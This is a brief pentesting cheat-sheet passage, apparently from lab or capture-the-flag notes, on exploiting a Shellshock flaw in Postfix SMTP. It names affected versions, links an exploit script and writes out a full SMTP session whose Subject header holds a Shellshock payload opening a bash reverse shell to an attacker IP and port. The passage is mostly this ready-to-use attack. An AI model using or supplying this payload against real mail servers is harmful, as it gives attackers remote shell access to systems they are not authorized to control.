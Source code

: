 ## SMTP Exploits:

### Shellshock

Postfix versions 4.2.x < 4.2.48 are vulnerable to RCE (ShellShock).  You can use the script [here](https://www.exploit-db.com/exploits/34896) or just craft an email manually through Telnet:

```bash
MAIL FROM:<coyote@domain.local>
RCPT TO:<root@irked> NOTIFY=success,failure
DATA
Subject:() { :; };bash -i >& /dev/tcp/10.10.14.29/8000 0>&1
#<PRESS ENTER TWICE>
This is a test message
.
```

